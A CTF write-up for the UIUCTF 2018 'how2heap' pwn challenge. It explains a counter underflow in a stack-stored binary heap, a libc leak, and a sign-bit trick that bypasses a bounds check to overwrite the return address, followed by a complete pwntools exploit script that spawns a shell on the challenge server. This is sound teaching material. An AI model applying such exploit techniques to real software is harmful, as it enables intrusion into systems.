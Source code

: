 ```yaml
---
title: "UIUCTF 2018 - how2heap (300pt)"
description: "\"heap\" exploitation"
date: 2018-04-08
tags: ["exploit"]
---
```


# how2heap (300pt)

**`Exploitation`**

**Description:** intro to heap exploitation

nc challenges1.uiuc.tf 38910

**Files:**

* [how2heap](/code/2018/UIUCTF/how2heap/how2heap)
* [libc-2.26.so](/code/2018/UIUCTF/how2heap/libc-2.26.so)

# Solution

The application allows you to store the name and age of GW2 characters. These characters are stored in an array-backed binary max heap on the stack in the following manner:

```
       | 8 bytes || 8 bytes |
       ----------------------
base > [ counter ]
       [ age0    ][ name0   ]
       [ age1    ][ name1   ]
       [ age2    ][ name2   ]
       [ age3    ][ name3   ]
       ...
       [ age15   ][ name15  ]
       ...
       [ return  ]
```

In order to keep track of where to add new characters, there is a counter variable that initially starts at zero. The address of the new character is determined by: `base + (counter + 1) << 4`. However, before creating the character, the subroutine checks if `counter > 0xe`. If this is true, it simply prints, "Too many characters" and returns.

During my initial testing, I realized that if you created two characters, you could actually call delete three times. This is because when you call delete, it only clears the name region of the character, not the age. This has the effect of setting `counter` to -1.

Once you do this, the next character will be written directly on top of the counter variable. However, due to the check as stated above, you can only achieve negative writes for counter values less than or equal to `0xe`.

# Libc leak

In order to leak libc, we need to leak some stack data. When we call delete, it deletes the character at index zero and prints out the name. Additionally, there is no check on the value of the counter variable when we call delete.

Since this is a binary heap, the delete algorithm simply takes the furthest leaf node and overwrites the root element. Then it calls `sink` on the root element to maintain the heap invariants. If this is not familiar to you see the following wikipedia article: [https://en.wikipedia.org/wiki/Binary_heap#Extract](https://en.wikipedia.org/wiki/Binary_heap#Extract).

Therefore, we can set the counter to point to a region of stack memory that contains a libc address and call delete twice so that the libc address is printed. It is straightforward from there to calculate the libc base address and a magic gadget address with the provided libc.

# Saved return address overwrite

We can not simply set the count variable to the offset of the saved return address since we wouldn't be able to create a new character. The solution is to exploit the way the address is calculated. When we provide an age (to overwrite the count variable), it is read via `scanf("%ld", &age)`. Therefore, we can provide negative numbers.

When I first encountered this, it didn't seem like much of a help since negative numbers would mean a negative offset right? Then I realized that due to the shifting, we could set only the MSB of the count variable and it would be ignored. For instance, setting `count` to `0xf` would effectively overwrite the return address if the check was not in place. However, by setting `count` to `0x800000000000000f` we can bypass the check (since this is a negative number) and we still point to the same address since the high bits are shifted away.

# Script
[view raw](/code/2018/UIUCTF/how2heap/solveHow2heap.py)

```py
# by hgarrereyn

from pwn import *
import binascii

s = remote('challenges1.uiuc.tf', 38910)

s.recvuntil('Choice: ')

def order():
    s.sendline('0')
    s.recvuntil('Choice:')

def count():
    s.sendline('1')
    s.recvuntil('Choice:')

def make(name, age):
    s.sendline('2')
    s.recvuntil('? ')
    s.sendline(name)
    s.recvuntil('? ')
    s.sendline(str(age))
    s.recvuntil('Choice: ')

def delete():
    s.sendline('3')
    return s.recvuntil('Choice: ')

def parse_addr(r):
    leak = r.split('\n')[1].split(' ')[0][:-1]
    addr = int(binascii.hexlify(leak[::-1]), 16)
    return addr

# setup
make('a',1)
make('b',1)
delete()
delete()
delete()
order()

# the age of the next make will overwrite the count variable

# leak libc
make('f',26)
delete()

libc_base = parse_addr(delete()) - 4131819 # specific to the provided libc
log.info('Libc base: ' + hex(libc_base))

# reset the pointer
count()
make('a',1)
make('b',1)
delete()
delete()
delete()

# next age will overwrite count variable again
make('a', -9223372036854775792)

# magic gadget
make(p64(libc_base + 0xfccde), 1)

# return, jump to magic gadget
s.sendline('9')

s.interactive()
```